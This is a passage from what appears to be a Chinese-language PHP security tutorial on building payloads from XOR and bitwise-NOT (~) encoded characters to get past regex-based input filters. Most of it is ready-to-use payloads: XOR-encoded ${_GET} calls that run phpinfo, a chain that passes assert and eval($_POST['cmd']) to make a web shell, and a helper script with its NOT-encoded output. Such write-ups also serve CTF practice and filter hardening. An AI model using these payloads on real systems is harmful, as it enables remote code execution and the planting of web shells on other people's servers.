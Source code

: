 ![image-20210816183217292](https://tcakalr.gitee.io/tc/image-20210816183217292.png)

```
(%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();
```

第二种构造方法如下，也是最常用的方法。

```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
我们知道，经过一次get传参会进行一次URL解码，所以我们可以将字符先进行url编码再进行异或得到我们想要的字符。 %A0^%FF=>_ 
%B8^%FF=>G
%BA^%FF=>E  
%AB^%FF=>T 

<?php
$a = urldecode('%ff%ff%ff%ff');
$b = urldecode('%a0%b8%ba%ab');
echo $a^$b;
//输出_GET
```

![image-20210816183511227](https://tcakalr.gitee.io/tc/image-20210816183511227.png)

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
```

```
${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27cmd%27]) 
//${_GET}[_](${_GET}[__]);&_=assert&__=eval($_POST[%27cmd%27])
```

取反：
取反的符号是`~`，也是一种运算符。在数值的二进制表示方式上，将0变为1，将1变为0。

对一串恶意代码进行取反然后 URL 编码，在发送 Payload 的时候再次将其取反便可将代码还原，然后将其动态执行。并且，因为是取反，基本上用的都是不可见字符，所以不会触发到正则表达式。

```php
<?php
$a='assert';
echo urlencode(~$a);
echo "<br>";
$c='(eval($_POST[cmd]))';
echo urlencode(~$c);
?>
//%9E%8C%8C%9A%8D%8B
//%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
```

最后在传入时再次取反

```php
(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6);
```
